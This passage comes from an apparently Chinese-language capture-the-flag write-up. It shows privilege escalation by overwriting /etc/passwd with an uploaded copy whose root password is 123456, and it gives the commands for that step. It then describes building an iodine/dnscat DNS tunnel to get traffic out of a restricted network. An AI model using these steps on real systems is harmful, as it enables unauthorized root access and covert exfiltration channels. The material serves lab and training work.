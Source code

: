 [![](assets/1708919820-ca75494f0a56b83d2e89fc6021c929b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024845-ae79376c-cb69-1.png)

cp 提权

我们还是搭一下大头哥的便车

[https://github.com/LxxxSec/TunnelX/blob/master/passwd.py](https://github.com/LxxxSec/TunnelX/blob/master/passwd.py)

上传 root 密码是 123456 的 etc/passwd

```bash
cp /tmp/passwd1 /etc/passwd
su root
123456
cd /root/flag
cat *
```

[![](assets/1708919820-ef12550733ad0e3a245156af4bcab0ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024851-b2354cc4-cb69-1.png)

然后就是代理搭建部分，上面说到这能通过 dns 流量，所以我们首先要构建 dns 隧道，使用 iodine 做个 DNS 代理，但是因为条件有限，我们只有一个 vps，iodine 和 dnscat 端口使用重合（因为 iodine 会分别在客户端和服务端创立虚拟网卡，然后客户端的 dns0 会去连接服务端的 53 端口，），所以我们可以让 iodine 先 sleep 几秒，在这几秒钟内关闭运行 dnscat 容器

上传部分还是搭大头哥的便车[https://github.com/LxxxSec/TunnelX/blob/master/iodine.py](https://github.com/LxxxSec/TunnelX/blob/master/iodine.py)
